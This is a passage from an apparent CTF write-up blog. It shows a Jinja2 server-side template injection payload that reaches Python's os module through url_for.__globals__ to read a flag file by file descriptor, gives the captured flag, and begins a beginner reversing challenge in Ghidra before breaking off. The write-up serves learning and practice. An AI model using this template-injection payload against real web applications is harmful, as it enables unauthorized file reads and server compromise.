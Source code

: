 {% highlight bash %}
?name={ {url_for.__globals__.os|attr(request.args.param)(1337,100)}}&param=read
{% endhighlight %}

Basically, the first one uses os.open() to create a file descriptor for ‘flag.txt’ and the second one uses that file descriptor (in this case 13337; should be replaced with the name on the card resulted from the first request) to read 100 characters from that file. 

**Flag:** GLUG{j1nj4\_n07\_n1nj4_d!}

## Stranger Things {#reverse1}

<div>
<center><img src="/images/foobarctf_2020_writeup_part_i/image-30.png"></center>
</div>

If you’ve met me at least once, you probably already know that I suck at reversing. However, this challenge was really beginner-friendly and I was able to solve it. The first step was opening the binary in ghidra and viewing the list of functions:

<div>